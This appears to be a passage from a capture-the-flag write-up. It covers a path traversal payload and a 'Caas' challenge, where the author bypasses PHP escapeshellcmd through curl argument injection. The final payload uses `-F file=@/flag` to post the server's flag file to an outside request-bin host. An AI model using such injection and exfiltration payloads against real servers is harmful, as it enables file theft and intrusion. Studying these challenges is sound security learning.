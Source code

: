 Final payload: `?lang=..././..././flag`

## WEB - Caas

This challenge also provided the source code of the website but the codebase was larger than the previous problems. Long story short, the client side took a URL as input and a `CURL` request was made to that URL from the PHP backend and the output was then returned to the client. This is the PHP code snippet that made the `CURL` request -

```php
<?php
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```

So, like the noobie that I am, I tried different payloads without understanding the code properly. I tried appending simple bash commands like - `ls`, `cat flag.txt` to the `url` parameter hoping that this injected command would get executed after `curl`. Turns out, this is what `escapeshellcmd` is supposed to filter. From the PHP docs -

  > escapeshellcmd() escapes any characters in a string that might be used to trick a shell command into executing arbitrary commands.

So, I started reading about `escapeshellcmd` exploits and found a Github [repo](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md) that had payloads for `escapeshellcmd` exploits. Basically, the idea is to make a `POST` request using the `CURL` command and send the `flag.txt` file along with the request. I found [this](https://stackoverflow.com/questions/12667797/using-curl-to-upload-post-data-with-files) answer that showed how to do this.

Now, all I needed was an endpoint to make a `POST` request to and view the received request. These are called Request Bins and are used a lot in XSS challenges. For this challenge, I used Beeceptor.

Final payload: `-F file=@/flag https://ctfctf.free.beeceptor.com`

Here is the request I received on Beeceptor's console. Also, the flag visible in the request body is the test flag since I generated this request from a local instance for the writeup.

![console](/static/beeceptor.png)
